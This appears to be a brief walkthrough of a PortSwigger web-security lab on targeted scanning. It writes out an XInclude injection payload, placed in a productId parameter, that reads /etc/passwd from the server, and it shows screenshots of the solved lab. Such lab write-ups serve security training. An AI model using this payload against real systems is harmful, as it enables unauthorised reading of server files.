 # Discovering vulnerabilities quickly with targeted scanning

## This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of `/etc/passwd` within 10 minutes.

## Due to the tight time limit, we recommend using [Burp Scanner](https://portswigger.net/burp/vulnerability-scanner) to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a [targeted scan on a specific request](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing#scanning-a-specific-request). Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it

---

step 1
![](images/lab1_product_stock.jpg)

step 2
add payload

```javascript
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
&storeId=1
```

![](images/lab1_add_payload_etc_password.jpg)

![](images/lab1_solved_lab.jpg)
